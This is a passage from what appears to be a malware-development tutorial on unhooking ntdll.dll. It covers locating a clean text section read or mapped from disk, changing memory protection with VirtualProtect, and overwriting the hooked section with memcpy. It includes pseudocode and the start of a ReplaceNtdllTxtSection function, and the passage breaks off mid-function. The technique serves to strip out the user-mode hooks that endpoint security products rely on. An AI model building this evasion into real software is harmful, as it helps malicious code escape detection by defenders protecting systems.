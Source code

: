 ### **3 - Fetching The Unhooked Ntdll.dll's Text Section**

The next step is to get the base address of the unhooked `ntdll.dll`'s text section. This can be done using either `ReadNtdllFromDisk` or `MapNtdllFromDisk` functions. Then simply add that base address to the offset of the text section, which will differ depending on which function was used to retrieve the unhooked `ntdll.dll`'s text section.

If `ReadNtdllFromDisk` is used then the text section's offset will be equal to 1024 bytes. Otherwise, if `MapNtdllFromDisk` is used then the text section's offset will be equal to the NTDLL's `IMAGE_SECTION_HEADER.VirtualAddress`, which is generally 4096 bytes.

The pseudocode below shows the process for both scenarios.


```
// Mapped
PVOID pUnhookedTxtNtdll = (ULONG_PTR)(MapNtdllFromDisk output) + (4096 or IMAGE_SECTION_HEADER.VirtualAddress of ntdll.dll);

// Read
PVOID pUnhookedTxtNtdll = (ULONG_PTR)(ReadNtdllFromDisk output) + 1024;

```
### **4 - Text Section Replacement**

Having obtained all the necessary information, the next step is to swap the hooked NTDLL text section with the unhooked one. This is done via `memcpy`, where the destination parameter is the base address of the hooked text section and the source is the unhooked text section.

Recall that the memory permission of the text section should be modified to allow execution and writing. This will be done using the `VirtualProtect` WinAPI by setting the `PAGE_EXECUTE_WRITECOPY` or `PAGE_EXECUTE_READWRITE` flags.

After successfully updating the text sections, `VirtualProtect` should be called again to restore the previous memory permissions of the text section, `PAGE_EXECUTE_READ`.

### **The Unhooking Function**

The following `ReplaceNtdllTxtSection` function will be used in the upcoming modules as well. The function has one parameter, `pUnhookedNtdll`, which is the base address of the unhooked `ntdll.dll`.

The function also has preprocessor code that modifies the offset of the text section depending on which method was used to fetch the `ntdll.dll` file. If `MAP_NTDLL` is defined, the offset will be `pSectionHeader[i].VirtualAddress`. Alternatively, if `READ_NTDLL` is defined, the offset is set to 1024.

Defining `MAP_NTDLL` or `READ_NTDLL` will be left up to the user, depending on which function was used to read `ntdll.dll`.


```
// #define MAP_NTDLL
// or
// #define READ_NTDLL

BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID               pLocalNtdll	= (PVOID)FetchLocalNtdllBaseAddress();

	// getting the dos header
	PIMAGE_DOS_HEADER   pLocalDosHdr	= (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS   pLocalNtHdrs	= (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
```